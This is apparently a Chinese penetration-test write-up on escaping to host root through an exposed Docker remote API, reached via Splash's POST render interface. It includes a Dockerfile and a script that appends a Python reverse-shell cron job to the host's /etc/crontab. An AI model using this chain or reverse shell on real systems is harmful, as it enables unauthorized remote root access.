 [![](https://p0.ssl.qhimg.com/t014fd1bdf6b8c153c4.png)](https://p0.ssl.qhimg.com/t014fd1bdf6b8c153c4.png)

通过docker remote api 获取宿主机root权限

再看了遍文档，发现除了 GET 请求，还支持 POST，具体可以参考这里 [http://splash.readthedocs.io/en/2.2.1/api.html#render-html](http://splash.readthedocs.io/en/2.2.1/api.html#render-html) 

通过之前对该公司的测试，得知某些ip段运行着docker remote api，所以就想尝试利用post请求，调用api，通过挂载宿主机 /etc 目录 ，创建容器，然后写 crontab 来反弹shell，获取宿主机root权限。

根据docker remote api 的 文档 ，实现反弹需要调用几个 API，分别是

POST /images/create ：创建image，因为当时的环境可以访问公网，所以就选择将创建好的 image 先push到docker hub，然后调用 API 拉取

POST /containers/create: 创建 container，这里需要挂载宿主机 /etc 目录

POST /containers/(id or name)/start : 启动container，执行将反弹定时任务写入宿主机的 /etc/crontab

主要说一下构建 image，这里使用了 python 反弹shell 的方法，代码文件如下



```
Dockerfile
FROM busybox:latest
ADD ./start.sh /start.sh
WORKDIR /
```

start.sh：container启动时运行的脚本，负责写入宿主机 /etc/crontab ，第一个参数作为反弹host，第二个参数为端口



```
#!/bin/sh
echo "* * * * * root python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$1", $2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'" &gt;&gt; /hostdir/crontab
```

构建并push



```
docker build -t b1ngz/busybox:latest .
docker push b1ngz/busybox:latest
```

虽然 splash 支持 post 请求，但是比较坑的是，文档里没有给向目标地址发 POST 请求的例子，只有参数说明，看了遍文档，关键参数有这几个

url : 请求url

http_method：请求url的方法

headers: 请求 headers

body: 请求url的body，默认为 application/x-www-form-urlencoded

测试的时候，一开始一直使用 get 方法来请求 render.html 接口，但总是返回400 ，卡了很久



```
`{`
    error: 400,
    description: "Incorrect HTTP API arguments",
    type: "BadOption",
    info: `{`
        argument: "headers",
        description: "'headers' must be either a JSON array of (name, value) pairs or a JSON object",
        type: "bad_argument"
    `}`
`}`
```
